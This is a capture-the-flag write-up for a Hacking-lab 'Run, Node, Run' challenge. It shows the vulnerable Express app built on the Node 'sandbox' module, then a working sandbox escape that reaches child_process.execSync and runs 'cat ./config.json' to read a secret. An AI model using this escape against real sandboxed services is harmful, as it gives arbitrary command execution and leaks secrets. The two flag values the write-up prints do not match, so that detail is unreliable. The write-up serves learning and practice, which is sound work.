

# Day 10: >_ Run, Node, Run

Santa has practiced his nodejs skills and wants his little elves to practice it as well, so the kids can get the web-app they wish for.

He made a little practice sandbox for his elves. Can you break out?

[http://whale.hacking-lab.com:3000/](http://whale.hacking-lab.com:3000/)

### Description

The sandbox application let you run your JS code and then displayed the result. Its source code was publicly available.



### Solution

The first step was obvious. I checked the sandbox's source code.

```javascript
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();

app.use(require('body-parser').urlencoded({ extended: false }));

app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));

app.post("/run", (req, res) => {

	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}

	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

});

app.listen(port);
```

The webapp was built on top of [Sandbox](https://github.com/gf3/sandbox) Node.js module. In order to find a vulnerability to escape from the sandbox I took a look at project's [opened issues](https://github.com/gf3/sandbox/issues). The 4th one from the top was particularly interesting: [Sandbox can be broken](https://github.com/gf3/sandbox/issues/50).

The issue report included PoC code with detailed explanation so it was pretty easy to start with my own experiments. After successful breakout I loaded [Child Process](https://nodejs.org/api/child_process.html#child_process_child_process) module in order to get remote access to shell and execute my commands.

This is what my RCE exploit looked like.

```javascript
function rce(command) {
   return eval(this.constructor.constructor('return process')())
      .mainModule
      .require('child_process')
      .execSync(command)
      .toString('utf8')
      .replace(/\n/g, ' ');
}
```

The final step was to simple read content of the configuration file by calling this piece of code.

```javascript
rce('cat ./config.json');
```

This was the content printed out.

```json
{ "flag":"HV18-YtH3-S4nD-bx5A-Nt4G", "port":3000}
```

And here is the flag stored in it.

```
HV18-PpTR-Qri5-3nOI-n51a-42gJ
```
